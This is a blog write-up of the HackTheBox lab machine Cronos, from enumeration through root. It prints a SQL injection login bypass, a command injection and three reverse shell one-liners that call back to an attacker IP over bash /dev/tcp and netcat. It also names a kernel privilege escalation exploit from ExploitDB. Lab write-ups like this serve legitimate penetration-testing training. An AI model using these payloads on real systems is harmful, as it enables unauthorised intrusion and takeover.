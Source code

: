 ```yaml
---
layout: post
title:  "HackTheBox - Cronos Writeup"
categories: HackTheBox
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Cronos" (10.10.10.13) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

Let's start off with our two nmap scans, a full TCP & a full UDP. In this case only our TCP scan returned any results so we're only going to analyse the output of the TCP scan.

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-25 23:00 BST
Nmap scan report for 10.10.10.13
Host is up (0.038s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I was initially quite interested in port 80 due to the fact that a lot of the boxes on HackTheBox start with web-exploitation in some way or another, however, DNS being open did stand out quite a lot.

### HTTP 

I first did the typical thing of running a directory enumeration tool, I use dirb for this although as you can see below, we didn't get much back from this at all.

```
-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat May 25 23:02:46 2019
URL_BASE: http://10.10.10.13/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.13/ ----
+ http://10.10.10.13/index.html (CODE:200|SIZE:12454)
+ http://10.10.10.13/server-status (CODE:403|SIZE:299)
```

This instantly suggests to us that perhaps this site is unfinished/not properly configured, let's try use Nikto to see if we can find any other interesting information/configuration problems we might be able to leverage.

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.13
+ Target Hostname:    10.10.10.13
+ Target Port:        80
+ Start Time:         2019-05-25 23:03:31 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x30a6 0x555402443a52b 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7499 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-05-25 23:08:39 (GMT1) (308 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Like the directory bruteforce, Nikto did not return much for us again, at this point I decided that I would start checking out the DNS side of things as I wasn't getting anywhere fast with the web page enumeration. When visiting the site, we just get an Apache default configuration page so that cements that perhaps this website is unfinished/in-production.

### DNS

As DNS is open, and that is quite uncommon on HackTheBox we're going to add the device to our `/etc/hosts` file and then do some basic DNS enumeration. if you `nano /etc/hosts` and then add `10.10.10.13  cronos.htb` to the hosts file and save, we can then do some DNS enumeration. In this case we could educatedly guess the DNS name quite easily. Now we've done that we can use the `host` command in order to enumerate DNS information such as aliases, etc. 

```
host -l cronos.htb 10.10.10.13
Using domain server:
Name: 10.10.10.13
Address: 10.10.10.13#53
Aliases: 

cronos.htb name server ns1.cronos.htb.
cronos.htb has address 10.10.10.13
admin.cronos.htb has address 10.10.10.13
ns1.cronos.htb has address 10.10.10.13
www.cronos.htb has address 10.10.10.13
```

Oh look - `admin.cronos.htb`! Let's add this to our `/etc/hosts` again and then web-browse to the page.

### User Exploitation

Oh look, we've now got a login screen! I tried some basic logins such as `admin/admin` but I didn't get any luck with this so I stopped going down that path of default credentials.

![login page](/assets/images/2019-05-26-Cronos/LoginPage.png)

After failing at the default credential route I decided to go ahead and try some basic SQLi queries to try and bypass the login screen, I ended up going with `admin' or '1'='1` and that seemed to work for me, with the password being anything you want.

![sqli](/assets/images/2019-05-26-Cronos/sqli.png)

This logged us straight in and we come across a web-based command prompt that let's us execute a traceroute or a ping, typically tools like this are very poorly written and the input is typically unsanitised.

I'm first going to try and execute a basic command injection by appending an icmp back to my attacking machine on the end of the existing command. We'll use TCPDump to listen back for this ping, so we use `tcpdump ip proto \\icmp -i tun0` in order to do this and then from the web page we run the following.


![ping](/assets/images/2019-05-26-Cronos/nettool.png)

As you can see in the below tcpdump output, our connection is working, we can also see this in the web-based command panel so that's a good sign. A. we've got connectivity and B. our command injection is working via `&`.

```
tcpdump ip proto \\icmp -i tun0

tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
23:26:10.928326 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 1, length 64
23:26:10.928368 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 1, length 64
23:26:11.923451 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 2, length 64
23:26:11.923461 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 2, length 64
23:26:12.925157 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 3, length 64
23:26:12.925169 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 3, length 64
23:26:13.926582 IP cronos.htb > KaliAttacker: ICMP echo request, id 5855, seq 4, length 64
23:26:13.926594 IP KaliAttacker > cronos.htb: ICMP echo reply, id 5855, seq 4, length 64
```

Now we've got command injection, let's move into exploitation for user. What we're going to do is use a reverse shell in order to get a connection back to our machine. I had to try a few different shells here but I eventually got one that worked. I first tried using `bash -i >& /dev/tcp/10.10.14.12/8080 0>&1` from a nice list of typical reverse shells however it didn't work so then I tried using Netcat with `nc -e /bin/sh 10.10.14.12 8080` however, that didn't work either so I scrolled down to the Netcat section on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) there is an interesting command/method for still using netcat here with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 8080 >/tmp/f` and this worked. So now we have a user we grab the user flag and then we're going to work on the privilege escalation aspect.

```
Listening on [unknown] (family 0, port 1906660159)
Connection from 10.10.10.13 44088 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
$ 
$ locate user.txt
/home/noulis/user.txt
```

### Privilege Escalation

With every Linux box, I always run LinEnum so the first thing we're going to do is get the script onto the box, this is very easy to do. We will first setup a SimpleHTTPServer with `python -m SimpleHTTPServer 8000`, from here we will use `wget http://10.10.14.12:8000/linenum.sh` on the box in the `/tmp` directory (so we have write permissions). We will then `chmod 777 linenum.sh` and run the script. Once it finishes the first thing we will examine the output.

The very first thing I note from the LinEnum output is the Ubuntu verison & the kernel version, so the kernel is running on `4.4.0-72-generic` and the OS version is `16.04.2` so let's first go to Google and search `4.4.0-72-generic privilege escalation` and the first thing that comes up is a [Local Priv Esc for < 4.4.0-116 on ExploitDB](https://www.exploit-db.com/exploits/44298), let's take a look at this. It doesn't look like it was tested on our exact version of Ubuntu but it should work, so let's grab the exploit, compile it using `gcc -o 44298 44298.c` and then use the SimpleHTTPServer to transfer the file into our `/tmp` directory again, from here will use `chmod` to give it execution permissions and then we will run the script exploit.

```
$ ./44298

id
uid=0(root) gid=0(root) groups=0(root),33(www-data)

cat /root/root.txt
```

Oh and look, we got root! That's it! Grab the flag and you're done. Thank you for reading another writeup, this is an OSCP like box so this is great practice for that!
